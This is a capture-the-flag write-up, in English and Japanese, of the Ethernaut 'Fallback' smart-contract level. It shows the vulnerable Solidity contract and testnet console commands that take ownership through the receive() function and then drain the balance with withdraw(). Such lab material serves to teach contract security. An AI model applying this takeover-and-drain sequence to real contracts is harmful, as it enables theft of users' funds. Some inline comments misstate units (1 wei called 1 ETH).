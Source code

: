 Ethernaut 
### 1.Fallback

1. you claim ownership of the contract <br>
2. you reduce its balance to 0

How to send Ether when intracting with an ABI
How to send Ether outside of the ABI 
Converting to and from wei/Ether units 
Fallback methods 

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '@openzeppelin/contracts/utils/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;//internal database how much Ether each address has and how many token each address has, how much money each address has 
  address payable public owner;

//constructor deployed it set as owner 
  constructor() public {//executed lifecycle of smartcontract first get deploy
    owner = msg.sender; //send as owner 
    contributions[msg.sender] = 1000 * (1 ether); //mapping contribution set amount of Ether
  }

//modifier can applied any function in a smart contract 
  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

//contributionsの構成にsecurityhallがある
//何回もfunction contribute()を起動して、senderがownerよりcontributionsがmany many timesの状況になればownerになれてしまう

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }


  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

// this function is fallback function /you wanna send money to A contract 
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);//the best way attack become the owner
    //contributions条件を満たすことが攻撃の最初の準備。satisfy second condition first.
    owner = msg.sender;
  }
}
```

1. you claim ownership of the contract 

contract...reference of our smart contract 

n {methods: {…}, abi: Array(7), address: '0xc3309271b114BFdC7DaDCAd2C3ED67116A798624', transactionHash: undefined, constructor: ƒ, …}

contract.address...smartcontract address 

'0xc3309271b114BFdC7DaDCAd2C3ED67116A798624'

player...my address 
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

await contract.contributions(player) 
o {negative: 0, words: Array(2), length: 1, red: null}

//Array 0: 0 。現状no valueなのがわかる

await contract.getContribution()

//0のまんま

//そこでcall contribute function! It's payable.value: 1 => 1 ETH 

//1ETH send <br>
contract.contribute({value: 1})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}

//1ETH sendでaccount valueが増えているか確認 key:value <br>
await contract.contributions(player)
o {negative: 0, words: Array(2), length: 1, red: null}
//Array 0: 1 。

//ownerの確認 <br>
await contract.owner()

//this smartcontract own address<br>
'0x9CB391dbcD447E645D6Cb55dE6ca23164130D008'

//playerの確認 = まだownerになってない<br>
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

//sendTransaction is special function from web3.js <br>
contract.sendTransaction({value: 1})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}

//transaction<br>
⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177


//Transactionの成功によりcontractのownerが自分にchangeされているのを確認<br>
await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'



2.you reduce its balance to 0<br>
//balanceの確認<br>
await getBalance(contract.address)<br>
'0.000000000000000002'

//function withdrawをreturn<br>
//transfer all balance our wallet!<br>
contract.withdraw()

Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}

⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68

//balanceが"0"になっているのを確認

await getBalance(contract.address)

'0'

